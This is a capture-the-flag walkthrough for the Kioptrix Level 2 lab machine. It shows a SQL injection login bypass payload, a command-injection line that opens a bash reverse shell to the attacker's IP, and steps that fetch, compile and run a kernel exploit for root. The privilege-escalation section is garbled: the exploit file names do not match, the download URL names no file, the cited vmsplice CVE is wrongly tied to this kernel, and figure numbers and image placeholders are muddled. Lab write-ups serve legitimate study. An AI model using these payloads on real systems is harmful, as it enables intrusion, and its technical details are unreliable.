




# Kioptrix: Level 2 (#2) - Capture the Flag Walkthrough

A complete walkthrough of the Kioptrix Level 2 CTF challenge, demonstrating how to leverage SQL Injection for authentication bypass, Command Injection for initial network access, and a local kernel vulnerability for full root privilege escalation.

## 🎯 Target Overview
* **OS:** CentOS (Linux Kernel 2.6.9-55.EL)
* **IP Address:** 192.168.0.24
* **Difficulty:** Beginner / Intermediate

---

## 🔍 Stage 1: Enumeration & Scanning
An initial port and service scan was performed using Nmap:

```bash
nmap -sV 192.168.0.24
```

### Key Findings:
* **Port 22/tcp:** OpenSSH 3.9p1
* **Port 80/tcp:** Apache httpd 2.0.52 (CentOS web login engine)
* **Port 3306/tcp:** MySQL database back-end

<!-- 🖼️ PLACE FIRST IMAGE HERE -->

*Figure 1: Service identification highlighting active web and database components.*

---

## 🚀 Stage 2: Exploitation & Initial Access

### 🔐 Web Authentication Bypass (SQL Injection)
Navigating to `http://192.168.0.24` revealed an administrative web login prompt. Because user input was passed unsanitized straight into backend MySQL query strings, an **SQL Injection (SQLi)** payload was injected into the Username field:

```text
admin' OR '1'='1
```

*Figure 2: SQL Injection Command.*
*The password field was left completely blank.*

**Result:** The database logic evaluated the statement as universally true, ignored the password validation parameter, and successfully authenticated entry into the panel dashboard.

---

### 💻 Remote Command Execution (RCE)
Once authenticated, the console exposed a system management utility titled *"Ping a Machine on the Network"*. Due to an HTML rendering error in legacy browsers, the interface boxes were hidden but fully active.

By appending an operator payload, the system command syntax was hijacked.

1. A Netcat listener was established on the attacker host:
   ```bash
   nc -lvnp 4444
   ```
   <!-- 🖼️ PLACE THIRD IMAGE HERE -->

  ```
*Figure 4: Successfully catching the interactive shell session using a Netcat listener.*
```
2. The following unified logical payload was delivered through the execution processing script:
   ```
   192.168.0.21 && bash -i >& /dev/tcp/192.168.0.21/4444 0>&1
   ```
  <!-- 🖼️ PLACE SECOND IMAGE HERE -->
 
 
*Figure 3: unified logical payload.*
   ```

**Result:** The web server executed the background task and sent back an interactive reverse shell session to the listener terminal as low-privilege web execution profile `apache`.

```bash
connect to from (UNKNOWN)
bash-3.00\$ whoami
apache
```


## 📈 Stage 3: Local Privilege Escalation (Root)

System profiling was performed from the interactive terminal session:
```bash
bash-3.00\$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686
```

The system was identified running **Linux Kernel 2.6.9**, which contains a fatal memory mapping structural flaw vulnerable to the classic local privilege escalation exploit **`vmsplice`** (**CVE-2008-0600**).

### 📂 File Transfer & Execution
The exploit module (`5093.c`) was staged inside the Kali environment, served over an unencrypted local Python instance, and transferred down to the target environment's `/tmp/` staging layout:

```bash
# On Target Environment Shell
cd /tmp
wget http://192.168.0.21/
gcc -o rootme 9542.c
./rootme
```

**Result:** The execution was successful, exploiting the local memory allocation boundaries to instantly drop execution flow into an elevated root access context.

```bash
bash-3.00\$ whoami
root
```

<!-- 🖼️ PLACE THIRD IMAGE HERE -->

*Figure 4: Compiling and executing the vmsplice exploit module to obtain administrative shell status.*

---

## 🏁 Flag Capture / Conclusion
With full administrative access granted, the system environment control parameters were completely compromised.

🎉 **Kioptrix Level 2: 100% Completed.**
